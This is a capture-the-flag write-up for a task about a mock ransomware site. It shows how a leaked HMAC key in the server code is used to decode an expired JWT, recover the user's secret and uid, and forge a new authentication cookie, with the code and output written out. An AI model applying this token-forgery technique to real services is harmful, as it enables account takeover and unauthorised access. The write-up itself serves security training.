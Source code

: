 # Task 6

## Background
> We've found the login page on the ransomware site, but we don't know anyone's username or password. Luckily, the file you recovered from the attacker's computer looks like it could be helpful.
>
> Generate a new token value which will allow you to access the ransomware site.
> ### Prompt
> Enter a token value which will authenticate you as a user of the site.

## Writeup
TL;DR: Retrieve `sec` and `uid` from the decoded cookie file from task 5 and generate a new JWT with an expiration date in the future.

From the cookie file in task 5, we can see that this cookie's name is `tok`. Looking back at the server files retrieved in task B2, this cookie is a [JSON web token (JWT)](https://en.wikipedia.org/wiki/JSON_Web_Token) issued by the server to authenticate the user. These cookies are generated by `generate_token` in `util.py`.
```python
def generate_token(userName):
	""" Generate a new login token for the given user, good for 30 days"""
	with userdb() as con:
		row = con.execute("SELECT uid, secret from Accounts WHERE userName = ?", (userName,)).fetchone()
		now = datetime.now()
		exp = now + timedelta(days=30)
		claims = {'iat': now,
		          'exp': exp,
				  'uid': row[0],
				  'sec': row[1]}
		return jwt.encode(claims, hmac_key(), algorithm='HS256')
```
where `hmac_key()` is defined as
```python
def hmac_key():
	return "mnkor8J5UOeJKAqN2yx9MOkDOehyDKdt"
```

Unfortunately, we don't have the database to retrieve `uid` and `sec`. However, we do have a previously valid example: the cookie from task 5! We can decode it, using the correct parameters, to get the plaintext claims back out of it (we need to disable expiration verification since the cookie has already expired).
```python
>>> import jwt
>>> jwt.decode("eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NTI4MjY4MDgsImV4cCI6MTY1NTQxODgwOCwic2VjIjoicmFaUnR1dDJQNHVOZHYySjVsTmI2WmJqR21pUXdQUXkiLCJ1aWQiOjE2OTYzfQ.VGKRAm6p6e3Z0DM7wPohSyfSDgNMqsRIzS2cWpmhBPM", "mnkor8J5UOeJKAqN2yx9MOkDOehyDKdt", algorithm='HS256', options={'verify_exp':False})
{'iat': 1652826808, 'exp': 1655418808, 'sec': 'raZRtut2P4uNdv2J5lNb6ZbjGmiQwPQy', 'uid': 16963}
```

Now that we know the attacker's secret and uid, we can easily forge a new token.
```
$ python3 forge_token.py 16963
# Netscape HTTP Cookie File
xekflqhmhrsoelot.ransommethis.net	FALSE	/	TRUE	2145916800	tok	eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NjAyMzgwMzQsImV4cCI6MTY2MjgzMDAzNCwidWlkIjoxNjk2Mywic2VjIjoicmFaUnR1dDJQNHVOZHYySjVsTmI2WmJqR21pUXdQUXkifQ.aSnQHsGETQdqKj9ziprfoHxWt1_sg5_lqsaowWA8I4I 
```

Putting the cookie value into the answer box, we get our task 6 badge!